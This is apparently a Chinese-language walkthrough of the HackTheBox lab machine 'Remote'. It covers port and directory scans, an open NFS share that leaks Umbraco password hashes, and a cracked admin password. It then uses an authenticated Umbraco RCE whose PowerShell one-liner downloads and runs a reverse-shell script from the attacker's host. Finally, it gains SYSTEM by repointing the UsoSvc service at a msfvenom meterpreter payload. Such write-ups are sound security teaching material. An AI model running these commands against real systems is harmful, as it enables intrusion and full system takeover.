




# 信息搜集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.180 -oA scans/ports
...
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49678/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown
...
root@kali# nmap -sV -sC -p 21,80,111,135,139,445,2049,5985,47001 -oA scans/nmap-tcpscripts 10.10.10.180
...
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m38s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-22T18:57:11
|_  start_date: N/A
...


```

## 目录FUZZ

80端口打开后像是一个介绍页面，没发现有啥有用的东西，尝试爆破

```
root@kali# gobuster dir -u http://10.10.10.180 -w /usr/share/wordlists/Web-Content/common.txt -t 30 --no-error
...
/Home                 (Status: 200) [Size: 6703]
/Blog                 (Status: 200) [Size: 5011]
/Contact              (Status: 200) [Size: 7890]
/Products             (Status: 200) [Size: 5338]
/blog                 (Status: 200) [Size: 5001]
/contact              (Status: 200) [Size: 7880]
/home                 (Status: 200) [Size: 6703]
/install              (Status: 302) [Size: 126] [--> /umbraco/]
/intranet             (Status: 200) [Size: 3323]               
/master               (Status: 500) [Size: 3420]               
/people               (Status: 200) [Size: 6739]               
/person               (Status: 200) [Size: 2741]               
/products             (Status: 200) [Size: 5328]               
/product              (Status: 500) [Size: 3420]               
/render/https://www.google.com (Status: 400) [Size: 3420]      
/umbraco              (Status: 200) [Size: 4040]
...
##存在一个叫umbraco的cms，继续爆破
root@kali# gobuster dir -u http://10.10.10.180/umbraco -w /usr/share/wordlists/Web-Content/common.txt -t 30 --no-error
...
/Default              (Status: 200) [Size: 4040]
/Members              (Status: 301) [Size: 159] [--> http://10.10.10.180/umbraco/Members/]
/Search               (Status: 301) [Size: 158] [--> http://10.10.10.180/umbraco/Search/] 
/actions              (Status: 301) [Size: 159] [--> http://10.10.10.180/umbraco/actions/]
/application          (Status: 200) [Size: 2455]                                          
/assets               (Status: 301) [Size: 158] [--> http://10.10.10.180/umbraco/assets/] 
/config               (Status: 301) [Size: 158] [--> http://10.10.10.180/umbraco/config/] 
/controls             (Status: 301) [Size: 160] [--> http://10.10.10.180/umbraco/controls/]
/create               (Status: 301) [Size: 158] [--> http://10.10.10.180/umbraco/create/]  
/dashboard            (Status: 301) [Size: 161] [--> http://10.10.10.180/umbraco/dashboard/]
/default              (Status: 200) [Size: 4040]                                            
/developer            (Status: 301) [Size: 161] [--> http://10.10.10.180/umbraco/developer/]
/dialogs              (Status: 301) [Size: 159] [--> http://10.10.10.180/umbraco/dialogs/]  
/install              (Status: 301) [Size: 159] [--> http://10.10.10.180/umbraco/install/]  
/js                   (Status: 301) [Size: 154] [--> http://10.10.10.180/umbraco/js/]       
/lib                  (Status: 301) [Size: 155] [--> http://10.10.10.180/umbraco/lib/]      
/masterpages          (Status: 301) [Size: 163] [--> http://10.10.10.180/umbraco/masterpages/]
/members              (Status: 301) [Size: 159] [--> http://10.10.10.180/umbraco/members/]    
/plugins              (Status: 301) [Size: 159] [--> http://10.10.10.180/umbraco/plugins/]    
/preview              (Status: 302) [Size: 125] [--> /umbraco]                                
/render/https://www.google.com (Status: 400) [Size: 3420]                                     
/search               (Status: 301) [Size: 158] [--> http://10.10.10.180/umbraco/search/]     
/settings             (Status: 301) [Size: 160] [--> http://10.10.10.180/umbraco/settings/]   
/views                (Status: 301) [Size: 157] [--> http://10.10.10.180/umbraco/views/]      
/webservices          (Status: 301) [Size: 163] [--> http://10.10.10.180/umbraco/webservices/]
...
```

## WEB页面

10.10.10.180：



找到一个登陆点，http://10.10.10.180/umbraco/#/login/false?returnPath=%252Fforms：



# 漏洞检测与利用

## 80



发现umbraco的7.12.4版本存在一个RCE，但是需要账号和密码。

## FTP - TCP 21

FTP 是开放的，允许匿名访问。连接后发现根目录是空的，也不可以上传。

```
root@kali# ftp 10.10.10.180                                                                                                                                 
Connected to 10.10.10.180.
220 Microsoft FTP Service
Name (10.10.10.180:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

## SMB - TCP 445

无法访问任何共享

```
root@kali# smbclient -N -L //10.10.10.180
session setup failed: NT_STATUS_ACCESS_DENIED

root@kali# smbmap -H 10.10.10.180
[+] Finding open SMB ports....
[!] Authentication error on 10.10.10.180
[!] Authentication error on 10.10.10.180
```

## NSF - TCP 2049

NFS 在 HTB 机器上非常罕见，因此，它的开放性绝对值得关注。查看靶机的分享目录：

```
root@kali# showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
## 把它挂载到我的主机上：/mnt
root@kali# mount -t nfs 10.10.10.180:/site_backups /mnt/
## 查看分享内容
root@kali:/mnt# ls
App_Browsers  App_Data  App_Plugins  aspnet_client  bin  Config  css  default.aspx 
Global.asax Media  scripts  Umbraco  Umbraco_Client  Views  Web.config    
## 查找分享目录内含有pass字样文件
root@kali# find ./|xargs grep -ri 'pass' -l                                                              130 ⨯
./App_Data/Logs/UmbracoTraceLog.intranet.txt
./App_Data/Logs/UmbracoTraceLog.intranet.txt.2020-02-19
./App_Data/Models/all.generated.cs
./App_Data/Models/models.generated.cs
```

在Web.config确认cms版本号为：7.12.4,正是上面存在rce的版本。

在`App_Data/Logs/UmbracoTraceLog.intranet.txt`下找到一个登陆用户名：`admin@htb.local`

```
## 再次查找分享目录内含有admin@htb.local字样文件
root@kali# find ./|xargs grep -ri 'admin@htb.local' -l                                                   130 ⨯
./App_Data/Logs/UmbracoTraceLog.intranet.txt
./App_Data/Logs/UmbracoTraceLog.intranet.txt.2020-02-19
./App_Data/Logs/UmbracoTraceLog.remote.txt
./App_Data/Umbraco.sdf
## 在App_Data/Umbraco.sdf下找到相关字样，把这个文件重定向到kali
root@kali# strings App_Data/Umbraco.sdf >/root/htb/Remote/umbraco.txt
```

> 将位于 App_Data/Umbraco.sdf 文件中的字符串提取出来，并将这些字符串的内容输出到 /root/htb/Remote/umbraco.txt 文件中。简单来说，它把一个文件中的文本提取出来并保存到另一个文件中。

```
root@kali# head umbraco.txt 
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
@{pv
qpkaj
```

可以看到爆出了几个用户名，哈希密码，以及哈希算法，整理如下

1. 用户名：admin@htb.local 哈希：b8be16afba8c314ad33d812f22a04991b90e2aaa 哈希算法：SHA1
2. 用户名：smith@htb.local 哈希：jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts= 哈希算法：HMACSHA256
3. 用户名：ssmith@htb.local 哈希：8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA= 哈希算法：HMACSHA256
   
   

解出来用户admin@htb.local密码哈希明文：baconandcheese，上面用户凭据可以登录cms

## 反弹shell

Exp：https://github.com/noraj/Umbraco-RCE

攻击：

```
root@kali# python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180/' -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')"
```

收到一个反弹shell:

```
root@kali# nc -lnvp 4242                     
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.180] 49724
Windows PowerShell running as user REMOTE$ on REMOTE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool
PS C:\windows\system32\inetsrv>
```

# 提权

## 传winpeas到靶机

```
(new-object System.Net.WebClient).DownloadFile('http://10.10.14.3:8000/winPEASx64.exe','C:\users\public\winPEASx64.exe')
```

> WinPEAS.exe下载地址：https://www.ddosi.org/peass-ng/#%E2%91%A0WinPEAS%E7%94%A8%E6%B3%95%E5%8F%8A%E8%AF%B4%E6%98%8E

执行：

```
& "C:\users\public\winPEASx64.exe"
```

> &是 PowerShell 中的调用操作符，它允许你执行指定路径下的可执行文件或者脚本。

## 服务提权

发现拥有开启和关闭一个RmSvc服务的权限

```
Modifiable Services
Z% Check if you can modify any service https://book.hacktricks.xyz/windows/windows-loc
al-privilege-escalation#services                                                                        
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:
    RmSvc: GenericExecute (Start/Stop)
    UsoSvc: AllAccess, Start
```

> RmSvc：
> 
> - 权限： GenericExecute（启动/停止）
> 
> - 解释： 这表明你拥有对名为 "RmSvc" 的服务进行启动和停止的权限。具体来说，你可以启动和停止这个服务，但是没有提及修改配置的权限。
> 
> UsoSvc：
> 
> - 权限： AllAccess（完全访问权限）、Start（启动）
> - 解释： 这表明你对名为 "UsoSvc" 的服务拥有完全访问权限，并且可以启动这个服务。"AllAccess" 意味着你有对该服务的全部权限，可能包括**修改配置**等操作。

PS下查看这个服务的信息

```
PS C:\> sc.exe qc UsoSvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: UsoSvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem
```

> sc.exe qc UsoSvc 是一个用于 Windows 操作系统的命令行工具。它主要用于查询服务的配置信息。在这个命令中，"UsoSvc" 是服务的名称，它指的是“Update Orchestrator Service”，这是 Windows Update 的一部分，负责管理更新的安装和配置。
> 
> 这个命令的作用是查询并显示名为 "UsoSvc" 的服务的配置信息。它会显示出服务的详细信息，比如服务的名称、显示名称、描述、路径、启动类型、启动参数等等。

修改这个服务二进制文件的路径

```
PS C:\> sc.exe config UsoSvc binpath= "C:\Users\Public\shell.exe"
[SC] ChangeServiceConfig SUCCESS
```

> 将服务 "UsoSvc" 的二进制路径修改为 "C:\Users\Public\shell.exe"，这样，当这个服务被启动时，它将执行位于这个路径下的 "shell.exe" 文件。

编译一个反弹shell文件

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f exe -o shell.exe
```

下载到靶机

```
(new-object System.Net.WebClient).DownloadFile('http://10.10.14.3:8000/shell.exe','C:\users\public\shell.exe')
```

重启服务

```
net stop UsoSvc
net start UsoSvc
```

拿到反弹shell

```
exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Sending stage (200262 bytes) to 10.10.10.180
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.10.180:49863) at 2021-12-26 11:20:13 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

需要注意，shell很快就会断掉，需要重新连接。